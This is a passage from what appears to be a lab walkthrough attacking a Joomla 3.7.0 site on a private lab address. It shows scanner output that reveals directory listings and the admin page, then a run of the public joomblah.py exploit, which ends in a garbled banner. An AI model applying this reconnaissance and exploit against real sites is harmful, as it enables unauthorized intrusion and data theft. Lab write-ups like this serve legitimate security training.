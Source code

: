 ```bash

[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.7.0

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing:
http://192.168.56.116/administrator/components
http://192.168.56.116/administrator/modules
http://192.168.56.116/administrator/templates
http://192.168.56.116/images/banners


[+] Checking apache info / status files
[++] Readable info / status files are not found

[+] admin finder
[++] Admin page: http://192.168.56.116/administrator/

[+] Checking robots.txt existing
[++] robots.txt is not found

[+] Finding common backup files name
[++] Backup files are not found[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found



Your Report: reports / 192.168.56.116 /

```
The tool gives us information about the Joomly version, so let's check on Google if there are any exploits for this version
I come across:

## JOOMBLAH
[GitHub exploit] (https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py)

I perform:

```bash
python joomblah.py http://192.168.56.116:80

    .---. .-'''-. .-'''-.
    | | '_ \' _ \ .---.
    '---' / / ''. \ / / ''. \ __ __ ___ / | | | .
    .--- .. | \ '. | \ '| | / `. ' '. || | | . '|
    | || '| '| '| '| .-. .-. '|| | | <|
    | | \ \ / / \ \ / / | | | | | ||| __ | | __ | |
    | | '. `.. '/`. `.. '/ | | | | | ||| / '__'. | | .: -. '. | | .''-.
    | | '-...-' ```-...- '' | | | | | ||: / `'. '| | / | \ | | | /. '' '. \
    | | | | | | | ||| | || | `" __ | | | / | |
    | | | __ | | __ | | __ ||| \ / '| | . '.' '| | | | | |
 __. ' '| /' .. '/' --- '/ / | | _ | | | |
| '' `'-'` \ \ ._, \' / | '. | '.
```